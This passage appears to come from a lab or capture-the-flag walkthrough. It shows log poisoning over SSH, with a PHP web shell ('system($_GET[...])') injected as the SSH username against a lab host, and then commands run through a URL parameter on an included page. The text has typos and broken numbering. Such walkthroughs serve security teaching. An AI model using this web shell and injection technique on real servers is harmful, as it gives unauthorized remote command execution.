


3.3 Inject code via SSH
1. Inject a code in the log which would again take commands from a get parameter. Run on your Kali Macine the following code.
$ssh '<?php system($_GET["c"]); ?>'@192.168.12.43
Output:

Now you can run any command from the link in the format
192.168.12.43/adminsfixit.php?c=2. Visit http://192.168.12.43/adminsfixit.php?c=ls -al.
3. Show the “Page source”.

The command has been executed and you have the lists of file.